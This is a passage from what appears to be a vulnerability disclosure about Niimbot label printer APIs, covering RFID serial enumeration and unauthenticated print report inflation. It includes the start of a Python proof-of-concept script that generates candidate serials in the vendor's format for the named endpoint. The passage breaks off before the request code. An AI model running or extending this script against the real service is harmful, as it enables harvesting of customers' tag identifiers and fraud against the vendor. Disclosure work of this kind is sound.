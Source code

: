 - Sending API requests with random serial numbers to enumerate valid tag identifiers
- Building a database of legitimate tag serial numbers currently in use by customers
- No rate limiting or anomaly detection exists to prevent enumeration

#### Vulnerability 2: Insufficient Print Report Validation

The system includes a mechanism for sending "print reports" to the backend after each print job, which increases the count of used labels associated with a specific RFID tag. These reports:

- Have no authentication mechanism
- Do not validate the source of the request
- Can be sent by any actor with knowledge of a valid serial number
- Allow artificial inflation of print counts for any known tag serial number

## Proof of Concept

### Vulnerability 1: RFID Serial Number Enumeration

The following proof of concept demonstrates how an attacker can enumerate valid RFID tag serial numbers by making unauthenticated requests to the API endpoint:

```python
import requests
import json
import time
import random
import os
import sys

# API endpoint
API_URL = "https://print.niimbot.com/api/rfid/getRfid/v2"
JSON_FILE = "valid_serials.json"

# Generate random serials, keeping the format 881d[XXXXYYYY][SSSS]
def generate_random_serials(amount):
    serials = set()
    suffix_options = ["0000", "1080"]  # Known suffixes
    
    while len(serials) < amount:
        middle = f"{random.randint(0, 0xFFFFFFFF):08x}"  # Generate random 8-char hex
        suffix = random.choice(suffix_options)  # Randomly choose a suffix
        serials.add(f"881d{middle}{suffix}")
    
    return list(serials)

# Load existing data and ensure valid JSON structure
def load_existing_serials():
    if os.path.exists(JSON_FILE):
        try:
            with open(JSON_FILE, "r") as file:
                return json.load(file)  # Load full JSON structure
        except json.JSONDecodeError:
            print("Error: JSON file is corrupted. Exiting.")
            sys.exit(1)  # Exit the program if the file is corrupted
    return {"data": []}

# Save data in a fully valid JSON format
def save_valid_serials(new_data):
    existing_data = load_existing_serials()
    existing_data["data"].extend(new_data)  # Append new entries

    with open(JSON_FILE, "w") as file:
        json.dump(existing_data, file, indent=4)  # Save as valid JSON

# Check serials via API with retries and session pooling
```